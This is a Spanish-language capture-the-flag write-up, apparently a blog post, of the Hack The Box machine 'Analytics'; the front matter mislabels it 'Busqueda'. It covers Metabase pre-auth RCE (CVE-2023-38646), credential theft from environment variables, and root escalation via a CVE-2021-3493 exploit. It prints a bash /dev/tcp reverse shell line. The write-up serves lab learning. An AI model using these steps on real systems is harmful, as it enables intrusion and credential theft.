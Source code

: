 ```yaml
---
layout: single
title: Busqueda - Machines - Hack The Box
excerpt: "Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE)."
date: 2023-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-analytics/analytics.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - cve-2023-38646
  - cve-2021-3493
  - rce
  
---
```


![](/assets/images/htb-writeup-analytics/analytics.png)

Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE).

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
 -	22 de SSH 
 -	80 de HTTP

![](/assets/images/htb-writeup-analytics/analytics2.png)

Observamos un dominio y un subdominio que debemos agregar a nuestro archivo /etc/hosts.

![](/assets/images/htb-writeup-analytics/analytics3.png)

Agregamos los dominios y subdominios identificados.

 -	Analytics.htb

 -	Data.analytics.htb

![](/assets/images/htb-writeup-analytics/analytics4.png)

Navegamos sobre el sitio web e identificamos un portal de inicio de sesión donde ejecuta Metabase la cual es una herramienta de inteligencia empresarial de código abierto que le permite crear gráficos y paneles utilizando datos de una variedad de bases de datos y fuentes de datos. 

![](/assets/images/htb-writeup-analytics/analytics5.png)

# 2.	Explotación

Buscamos vulnerabilidades asociadas a esta herramienta e identificamos el CVE-2023-38646 el cual permite un RCE.

 -	PoC: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

La siguiente carga útil nos permitirá un RCE, para ello vamos a necesitar identificar el token el cual vamos a encontrar en la ruta /api/session/properties.

También vamos a necesitar codificar en base 64 un rever Shell.

 -	bash -i >&/dev/tcp/<IP>/<PORT> 0>&1

![](/assets/images/htb-writeup-analytics/analytics6.png)

Debemos poner nuestro equipo atacante a la escucha por el puerto del reverse Shell y enviar la solicita a través de BurSuite.

![](/assets/images/htb-writeup-analytics/analytics7.png)

Vamos a obtener un Shell como usuario metabase.

![](/assets/images/htb-writeup-analytics/analytics8.png)

Luego de un buen tiempo, ejecutamos el comando “env” vamos a identificar la contraseña del usuario “metalytics”.

![](/assets/images/htb-writeup-analytics/analytics9.png)

Usamos las credenciales obtenidas para iniciar sesión por SSH.

![](/assets/images/htb-writeup-analytics/analytics10.png)

De esta manera obtenemos nuestra primera flag.

![](/assets/images/htb-writeup-analytics/analytics11.png)

# 3.	Escalada de privilegios

Des pues de un tiempo buscando una forma de escalar privilegios, identificamos el siguiente exploit disponible.

-	Expoit: https://github.com/briskets/CVE-2021-3493
  
Vamos a clonarlo a nuetstra maquina y ejecutamos el siguiente comando para generar nuestro script.

-	gcc exploit.c -o exploit
  
Luego vamos a levantar un servidor en nuestra maquina atacante para descargar el explot a la maquina víctima.

![](/assets/images/htb-writeup-analytics/analytics12.png)

Descargamos nuestro exploit y otorgamos permisos de ejecución.

![](/assets/images/htb-writeup-analytics/analytics13.png)

Ejecutamos nuestro exploit, el cual permitirá elevar privilegios a root. A hora podemos leer nuestra segunda flag.

![](/assets/images/htb-writeup-analytics/analytics14.png)





